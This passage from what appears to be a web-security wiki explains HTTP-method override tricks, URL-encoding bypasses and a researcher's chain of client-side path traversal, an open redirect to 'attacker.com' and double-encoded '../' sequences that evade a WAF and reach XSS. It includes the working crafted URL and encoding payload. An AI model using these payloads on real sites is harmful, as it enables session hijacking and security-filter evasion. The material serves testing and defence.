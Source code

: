    * By exploiting headers like `X-HTTP-Method-Override`, an attacker may be able to change the HTTP method (e.g., from GET to POST) to perform actions that wouldn't normally be allowed with the original method.
7. **URL Encoding or Double URL Encoding to Exploit Path Parameters**:
   * Encoding or double-encoding parts of the URL can be used to manipulate path parameters, potentially bypassing security measures or exploiting specific behaviors in the URL parsing logic of the backend.
8. **Do Not Underestimate Sinks with Other HTTP Methods: PUT, PATCH, DELETE, and GET**:
   * Exploitation isn't limited to POST requests. Methods like PUT, PATCH, DELETE, and even GET can be used in various ways to achieve similar or different effects, depending on how the backend processes these requests.

<figure><img src="../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

## Bypass WAF By Encoding + CSPT

In a recent hacking adventure, Matan Berson stumbled upon a sneaky vulnerability called Client-Side Path Traversal (CSPT). Picture a blog website where users view posts via a URL like `https://example.com/viewpost/543`. The site’s JavaScript grabs the post ID from the URL’s path and fetches content, but it doesn’t properly encode the input. Matan realized an attacker could slip in `../` sequences, tricking the site into requesting data from unexpected places, like `https://example.com/asdf`.

The real mischief begins when this flaw meets an open redirect gadget on the site. By crafting a URL like `https://example.com/viewpost/..%2f..%2f..%2fredirect%3fu=https:%2f%2fattacker.com`, an attacker could redirect the request to their own malicious server, injecting harmful content and potentially triggering XSS to hijack a user’s session.

But a Web Application Firewall (WAF) stood in Matan’s way, blocking requests with negative URL depth (too many `../`s). Undeterred, he noticed the WAF and the app decoded URLs differently. By playing with encoding levels—think of it like wrapping a gift in multiple layers of paper—he found a way to bypass the WAF. Using a payload like `%252e%252e%2f` (which the browser sees as `../`), he kept the WAF happy while still manipulating the app’s fetch request. In the end, Matan chained the CSPT with the redirect, sneaked past the WAF, and landed a successful XSS exploit, proving that clever encoding can unlock even well-guarded doors.

<figure><img src="../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>
